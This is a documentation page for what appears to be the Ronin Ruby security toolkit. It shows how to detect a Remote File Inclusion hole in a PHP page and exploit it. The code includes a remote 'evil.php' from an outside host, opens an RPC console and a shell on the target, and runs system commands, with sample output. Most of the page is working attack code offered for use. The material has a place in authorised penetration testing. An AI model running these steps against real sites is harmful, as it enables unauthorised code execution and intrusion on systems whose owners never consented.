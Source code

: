 ## Remote File Inclusion (RFI)

Test a URL for RFI:

{% highlight ruby %}
url = URL('http://www.example.com/page.php?layout=default')
url.has_rfi?
# => true
{% endhighlight %}

Obtain a [Ronin::PHP::RFI](http://ronin-ruby.github.com/docs/ronin-php/Ronin/PHP/RFI.html)
object which can be used to include other PHP files:

{% highlight ruby %}
rfi = url.first_rfi
{% endhighlight %}

Including a remote PHP file:

{% highlight ruby %}
rfi.include('http://www.shells4you.com/evil.php')
{% endhighlight %}

Using the Ronin PHP Remote Procedure Call (RPC) server:

{% highlight ruby %}
client = rfi.rpc
{% endhighlight %}

Using the PHP Console service to call PHP functions:

{% highlight ruby %}
php = client.console

php.phpversion
# => "4.3.10"

php.php_uname('-m')
# => "i686"
{% endhighlight %}

Using the PHP Shell service for quick command execution:

{% highlight ruby %}
shell = client.shell

shell.cwd
# => "/var/www/site/\n"

shell.cd '..'
# => ""

shell.exec('date -u')
# => "Thu Aug 21 10:29:38 UTC 2008\n"

shell.system('ps')
#    PID TTY          TIME CMD
#  27042 pts/8    00:00:00 bash